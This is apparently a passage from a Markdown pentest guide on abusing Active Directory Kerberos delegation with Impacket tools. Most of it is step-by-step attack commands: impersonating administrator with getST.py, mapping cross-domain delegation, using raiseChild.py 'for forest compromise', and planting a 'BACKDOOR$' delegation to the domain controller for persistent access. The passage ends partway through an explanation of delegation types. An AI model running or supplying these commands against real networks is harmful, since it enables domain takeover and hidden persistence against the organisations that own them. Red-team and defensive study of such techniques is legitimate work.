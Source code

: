 ```bash
python3 getST.py domain.local/FAKE$:Password123! -spn cifs/target.domain.local -impersonate administrator
```

### Cross-Domain Delegation Discovery
```bash
# Step 1: Map delegation across domain trusts
python3 findDelegation.py -target-domain parent.domain.local child.parent.domain.local/user:password
python3 findDelegation.py -target-domain trusted.domain.com domain.local/user:password

# Step 2: Identify cross-domain delegation opportunities
# Look for delegation relationships that span domain boundaries

# Step 3: Exploit cross-domain delegation for forest compromise
python3 raiseChild.py child.domain.local/admin:password -target-exec parent-dc.parent.domain.local
```

### Persistence Through Delegation
```bash
# Step 1: Discover current delegation configurations
python3 findDelegation.py domain.local/admin:password > original_delegation.txt

# Step 2: Add backdoor delegation relationships
python3 rbcd.py domain.local/admin:password -delegate-from 'BACKDOOR$' -delegate-to 'DC$' -action write

# Step 3: Verify new delegation relationship
python3 findDelegation.py domain.local/admin:password | grep "BACKDOOR"

# Step 4: Use backdoor for persistent access
python3 getST.py domain.local/BACKDOOR$:password -spn cifs/dc.domain.local -impersonate administrator
```

## Prerequisites
- Python 3.x with Impacket installed
- Valid domain credentials (or anonymous access if permitted)
- Network access to domain controller via LDAP (389/tcp) or LDAPS (636/tcp)
- Understanding of Active Directory delegation concepts
- Knowledge of Kerberos delegation protocols (S4U2Self, S4U2Proxy)

## Delegation Types Explained

### Unconstrained Delegation
- **Risk Level**: Critical
- **Description**: System can impersonate any user to any service
- **Attack Vector**: Wait for admin logon, extract TGT, use for privilege escalation
- **Common Systems**: Legacy servers, some Exchange servers
